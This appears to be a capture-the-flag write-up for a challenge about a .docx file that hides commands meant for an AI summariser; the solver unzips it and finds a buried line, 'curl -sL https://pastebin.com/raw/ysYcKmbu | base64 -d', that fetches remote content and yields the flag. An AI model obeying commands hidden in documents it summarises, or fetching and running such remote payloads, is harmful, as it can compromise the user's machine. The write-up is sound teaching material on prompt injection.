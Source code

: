 ```yaml
---
title: "tldr please summarise"
date: 2024-07-21
draft: false
# description: ""
tags: ["misc"]
---
```


**Challenge Description:** I thought I was being 1337 by asking AI to help me solve challenges, now I have to reinstall Windows again. Can you help me out by find the flag in this document?

**Solving Process:** We're given a file labelled `EmuWar.docx` to download. If we try to use `less` we're told that it may be a binary file, which seems a bit odd

![screenshot of less command on EmuWar.docx](./Assets/less_emu.png) 

Let's use `xxd` combined with `head` to get the [magic numbers](https://en.wikipedia.org/wiki/List_of_file_signatures) of the file to see if the file is actually something else. Looking at the output below and checking Wikipedia, we can see that it's actually a zipped file!

![screenshot of xxd command on EmuWar.docx](./Assets/xxd_emu_head.png) 

Using `unzip EmuWar.docx` we're given a couple of folders and a few files. I went straight to `word/document.xml` and saw what I assumed was a good story (it was too long, so I didn't read). Buried inside were some commands however, specifically `curl -sL https://pastebin.com/raw/ysYcKmbu | base64 -d`. What happends if we run it?

![Emu curl strong](./Assets/curl_emu.png) 

**Flag:**`DUCTF{chatgpt_I_n33d_2_3scap3}`
